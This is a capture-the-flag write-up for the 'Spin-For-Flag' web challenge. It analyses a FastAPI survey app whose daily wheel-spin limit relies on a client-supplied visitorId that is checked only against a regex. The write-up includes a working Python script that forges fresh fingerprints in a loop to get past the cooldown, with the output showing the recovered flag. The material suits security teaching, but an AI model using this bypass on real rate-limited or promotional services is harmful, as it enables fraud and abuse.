





# Writeup: Spin-For-Flag

**Team:** big🔥

**Author:** Jyggorath

**Flag:** `EPT{sp1n_th3_wh33l_0f_vuln3r4b1l1ty}`

## The target

In this challenge we are presented with a link to a web site and the source code for download. The site is a webapp that lets the user take a survey, and as reward, spin a wheel-of-fortune once a day:

| Main page                     | Survey                            |
| :---------------------------: | :-------------------------------: |
|  |  |

If we attempt to do this more than once, we'll be informed that we've already participated today and cannot retry until tomorrow:

| No win | Cooldown |
| :--: | :--: |
|  |  |

## The code

The code is a FastAPI app with several routes and support functions. In order to ensure the user follows the correct flow, only spins the wheel after having completed the survey etc., the app sets a number of ID's: `survey_uuid`, a UUID which identifies one submission of a survey, `visitorId`, a base62 value identifying each visitor based on browser fingerprinting, and `requestId`, a randomly generated value. Together these are used to make a `fingerprint`, which the app uses to validate if a user is eligible for a spin of the wheel or not.

If spinning the wheel is allowed, whether or not the user won is determined by this code in the backend:

```python
won = random.random() < WIN_PROBABILITY

if won:
	global win_counter
	flag_parts = split_flag_into_parts(FLAG)
	current_part = flag_parts[win_counter % 3]
	win_counter += 1
	
	part_number = ((win_counter - 1) % 3) + 1
	
	return {
		"result": "flag",
		"flag": current_part,
		"message": f"🎉 Congratulations! You won part {part_number}/3 of the flag!",
	}
```

`WIN_PROBABILITY` is an environment variable, so we cannot know exactly what it is. However, we can see in the config file that it defaults to `0.05`, so we can assume that this is the value it has:

```python
WIN_PROBABILITY = float(os.getenv("WIN_PROBABILITY", "0.05"))
```

`random.random()` returns a float between `0.0` and `1.0`. So if our assumption about `WIN_PROBABILITY` is correct, there's a 1/20 chance of winning a wheel spin. However, as we can see in the code above, the whole flag is not given if we win. When the app is initiated, the flag is split randomly into three parts, and only one part is returned pr wheel spin:

```python
def split_flag_into_parts(flag: str) -> list[str]:
    """Split flag into 3 roughly equal parts"""
    if flag.startswith("EPT{") and flag.endswith("}"):
        core = flag[4:-1]
        prefix = "EPT{"
        suffix = "}"
    else:
        core = flag
        prefix = ""
        suffix = ""
    
    # Split into 3 parts
    part_len = len(core) // 3
    part1 = prefix + core[:part_len]
    part2 = core[part_len:part_len*2]
    part3 = core[part_len*2:] + suffix
    
    return [part1, part2, part3]
```

Still, with a 1/20 chance to succeed, and only three rounds, it's very feasible to brute force this. But the fingerprinting prevents us from doing so. Each spin of the wheel requires `survey_uuid`, `visitorId` and `requestId` to be present and valid, and checks based on the `visitorId` if we've already spun:

```python
last_spin = visitor_spins.get(visitor_id)
if last_spin and (now - last_spin) < timedelta(seconds=DAILY_COOLDOWN_SECS):
	return JSONResponse({"message": "You've already spun today. Come back tomorrow!"}, status_code=403)
```

Especially the `visitorId` might seem complex to generate at a first glance, as it's based on a lot of browser specific values fetch with Javascript:

```javascript
function base62FromBuffer(buffer) {
	const chars = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
	const bytes = new Uint8Array(buffer);
	let result = "";
	for (let i = 0; i < 20; i++) {
		result += chars[bytes[i] % 62];
	}
	return result;
}

function collectFingerprintSeed() {
	const nav = global.navigator || {};
	const screen = global.screen || {};
	const timezone = Intl.DateTimeFormat().resolvedOptions().timeZone || "";
	return JSON.stringify({
		userAgent: nav.userAgent || "",
		language: nav.language || "",
		platform: nav.platform || "",
		hardwareConcurrency: nav.hardwareConcurrency || 0,
		deviceMemory: nav.deviceMemory || 0,
		colorDepth: screen.colorDepth || 0,
		pixelRatio: global.devicePixelRatio || 1,
		timezone,
		plugins: (nav.plugins && Array.from(nav.plugins, (p) => p.name)) || [],
	});
}

async function computeVisitorId() {
	const seed = collectFingerprintSeed();
	const digest = await global.crypto.subtle.digest("SHA-256", encoder.encode(seed));
	return base62FromBuffer(digest);
}
```

However there's no validation of this on the backend, the only important factor is that the result matches the regex `^[a-zA-Z0-9]{20}$`. As for the other IDs, the `requestId` is generated as a random value of hex characters with length of 32, but there doesn't seem to be any actual validation of the format of this ID. The `survey_uuid` is the only ID to be generated in the backend.

## Spinning and winning

If we can ensure we have the IDs necessary to make a valid **_and_** unique fingerprint, we can simply register new fingerprints all the time and call the `/api/spin` endpoint directly without having to wait at all.

Here's the script that was used for this:

```python
#!/usr/bin/python3
from requests import post
import re
from random import choices
from json import dumps

def gen_visitor_id():
	VISITOR_ID_PATTERN = re.compile(r'^[a-zA-Z0-9]{20}$')
	def is_valid_visitor_id(visitor_id: str) -> bool:
		"""Validate that visitorId matches expected format"""
		if not visitor_id or not isinstance(visitor_id, str):
			return False
		return bool(VISITOR_ID_PATTERN.match(visitor_id))
	a = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
	s = ''.join(choices(a, k=20))
	if is_valid_visitor_id(s):
		return s
	raise Exception(f'Failed to generate valid visitor id: {s}')

def gen_request_id():
	import uuid
	return uuid.uuid4().hex

def get_survey_uuid():
	response = post('https://big-79de64e7-spin4flag.ept.gg/api/survey/start')
	data = response.json()
	return data['survey_uuid']

def register_fingerprint(survey_uuid, visitor_id, request_id):
	response = post('https://big-79de64e7-spin4flag.ept.gg/api/fingerprint', json={
		'visitorId':	visitor_id,
		'requestId':	request_id,
		'version':		'3.4.2',
		'confidence':	{'score': 1.0},
		'device':		'desktop',
		'browserName':	'Firefox',
		'os':			'Windows',
		'survey_uuid':	survey_uuid
	})

def spin(survey_uuid, visitor_id, request_id):
	response = post('https://big-79de64e7-spin4flag.ept.gg/api/spin', json={
		'survey_uuid':	survey_uuid,
		'visitorId':	visitor_id,
		'requestId':	request_id
	})
	data = response.json()
	print(dumps(data))
	return data

while True:
	visitor_id = gen_visitor_id()
	request_id = gen_request_id()
	survey_uuid = get_survey_uuid()
	register_fingerprint(survey_uuid, visitor_id, request_id)
	result = spin(survey_uuid, visitor_id, request_id)
	if 'flag' in result:
		print(f"Got flag part: {result['flag']}")
		break
```

The validation in `gen_visitor_id()` is lifted directly from the app code to ensure we get a valid ID. `survey_uuid` is fetched by calling `/api/survey/start`, which returns a valid, fresh UUID as part of the response. In order to get a valid `requestId` with very little code, we just get a hex digest of a unique UUID.

We cannot use the IDs for the fingerprint until the fingerprint has been registered with the `/api/fingerprint` endpoint. This requires other values in addition to the IDs, but these don't need to change, so we look them up from the browser devtools and hard code them:



The confidence score in the payload is something which has to be between `0.5` and `1.0`, in order for the fingerprint to be accepted. But it's not really important what it is, the Javascript code simply hard codes it to `0.995` as long as a `visitorId` is set. The information about the browser and device, or the version, does not appear to be used for anything in the backend at all.

By running this script we have to wait a little while to get a part of the flag. Doing it 3 times gets us the whole flag:

```
# [...]
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "flag", "flag": "EPT{sp1n_th3_w", "message": "\ud83c\udf89 Congratulations! You won part 1/3 of the flag!"}
Got flag part: EPT{sp1n_th3_w
```
```
# [...]
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "flag", "flag": "h33l_0f_vu", "message": "\ud83c\udf89 Congratulations! You won part 2/3 of the flag!"}
Got flag part: h33l_0f_vu
```
```
# [...]
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "no_flag", "message": "Better luck next time! Thanks for spinning."}
{"result": "flag", "flag": "ln3r4b1l1ty}", "message": "\ud83c\udf89 Congratulations! You won part 3/3 of the flag!"}
Got flag part: ln3r4b1l1ty}
```
